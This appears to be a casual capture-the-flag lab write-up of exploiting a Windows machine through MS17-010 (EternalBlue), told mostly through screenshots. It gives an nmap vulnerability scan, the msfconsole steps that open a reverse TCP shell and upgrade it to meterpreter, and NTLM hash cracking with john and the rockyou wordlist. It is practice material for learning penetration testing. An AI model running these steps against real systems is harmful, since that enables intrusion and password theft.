 # Tasks

1. [**Recon**](#recon)
2. [**Gain Access**](#gain-access)
3. [**Escalate**](#escalate)
4. [**Cracking**](#cracking)
5. [**Find flags!**](#find-flags!)

# Recon

## Problems and Answers

![image](https://github.com/user-attachments/assets/de0fc226-2fc2-4bd5-903b-e09d93adf425)

## Solution

**Default scan:**

![image](https://github.com/user-attachments/assets/5ac5ef4e-f122-41d9-9661-2e659ce8958e)

**Vuln script scan:**

![image](https://github.com/user-attachments/assets/34a877cd-1049-45e7-858c-27aede5444a7)

**Note:** Could probably use _Nessus_ to find the CVE, but the _vuln script_ in **nmap** was more convenient for me lmao

Btw, here's how it looks:

```
nmap -sV --script vuln [IP Address]
```

# Gain Access

## Problems and Answers

![image](https://github.com/user-attachments/assets/ca14971c-8428-45f2-8c3d-e7c70cca0d1b)

## Solution

![image](https://github.com/user-attachments/assets/37d6a0b5-9ece-4424-bff8-3d98a72b3657)

![image](https://github.com/user-attachments/assets/89250fd8-e47d-42b7-ae68-f9d3e174f306)

Summary of **msfconsole** commands:

```
search ms17-010
use [exploit file path]
show options
set RHOSTS [Target IP]
set LHOST [Host IP]
set payload windows/x64/shell/reverse_tcp // Just for learning purposes so we know how to make our own meterpreter shell if need be
exploit
```

# Escalate

## Problems and Answers

![image](https://github.com/user-attachments/assets/6ea806b9-033d-483e-985f-fcd6496e959c)

## Solution

Got told to search myself how to upgrade a session into a meterpreter shell, so...

[**Upgrading shells to Meterpreter - Metasploit**](https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html)

[**Shell to Meterpreter Upgrade - Metasploit**](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/manage/shell_to_meterpreter)

Anyways, we found that out, so moving on

**Using the meterpreter upgrade:**

![image](https://github.com/user-attachments/assets/0fa5277f-0222-4703-ae21-79b558afc508)

It stopped a bunch of times btw lmao

Also here, so you don't forget how to use a _session_ next time:

```
sessions -i [ID Number]
```

Anyways, here's the rest of the steps according to the instructions:

![image](https://github.com/user-attachments/assets/407e2353-ea04-46fb-8e14-b95fa4c69584)

![image](https://github.com/user-attachments/assets/5e71b944-e4c6-41f6-a8aa-47435bfd4846)

**Note:** It's a lot of processes dw abt it

![image](https://github.com/user-attachments/assets/15905b60-85b5-46ed-b7a7-4d9c3fabcef1)

# Cracking

## Problems and Answers

![image](https://github.com/user-attachments/assets/b30e7538-794d-4fb9-a3a5-2d7a7c52292e)

## Solution

Get them hashes:

![image](https://github.com/user-attachments/assets/fa4a3e12-701a-4909-ad99-df848e7c722d)

Now, it's time for **hash cracking**

Now normally, I would run this:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt [Hash File]
```

But for some goofy ahh reason, my john isn't working ://

So we resort to an online NTLM Hash Cracker

![image](https://github.com/user-attachments/assets/17079134-8e5b-4832-9315-7c178759adcf)

P.S. Still salty af abt john not working

# Find flags!

## Problems and Answers

![image](https://github.com/user-attachments/assets/093d4743-94e2-45d0-976c-bb902eadf00a)

## Solution

**Flag 1:**

![image](https://github.com/user-attachments/assets/9688f047-8f4e-49da-9d45-ef26b514b0ca)

**Flag 2:**

![image](https://github.com/user-attachments/assets/9c92a0fc-0f3d-4092-8e37-8cd31526f85a)

**Flag 3:**

![image](https://github.com/user-attachments/assets/1548f405-3eb4-45f9-89c8-cb0507988c65)

